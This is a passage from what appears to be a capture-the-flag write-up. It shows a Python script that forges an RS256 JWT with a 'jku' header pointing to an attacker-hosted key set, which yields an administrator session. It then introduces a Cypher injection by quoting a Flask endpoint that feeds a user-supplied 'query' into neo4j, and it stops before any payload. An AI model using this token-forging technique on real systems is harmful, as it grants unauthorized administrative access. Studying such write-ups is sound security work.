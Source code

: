 ```python
    json.dump(jwks, file)

header = {
        "alg": "RS256",
        "jku": f"{HTTP_SERVER}/abcdef"
}

payload = {
        "username": 'hacked',
        "account_type": 'administrator'
}

token = jwt.encode(payload, pem_private_key, algorithm="RS256", headers=header)

print(f"Token: {token}")

```

Updating the 'jwt' cookie in our browser with the token provided by the script we see we get an administrator session upon browsing to `/panel/network`.

[![](assets/image/attachments/jwtjkuadminhijack.png)](assets/image/attachments/jwtjkuadminhijack.png){:.glightbox}

# Fourth Exploit - Cypher Injection

The next logical step is examining the source code for the endpoint. We see we can control one parameter `query` on a post request that is fed to some neo4j function. 

```python
# panel.py

...
@panel.route("/network", methods=["GET", "POST"])
@administrator_middleware
def network():
    mysql_interface = MysqlInterface(current_app.config)
    neo4j_interface = Neo4jInterface(current_app.config)

    implant_connections = []
    implants = mysql_interface.fetch_implant_data()

    if request.method == "GET":
        implant_connections = neo4j_interface.fetch_implant_connections()

    if request.method == "POST":    
        query = request.form.get("query")
    
        if not query:
            return response("Missing parameters"), 400
        
        implant_connections = neo4j_interface.search_implant_connections(query)

    return render_template("network.html",
        title="Nodes", 
        nav_enabled=True, 
        user_data=request.user_data,
```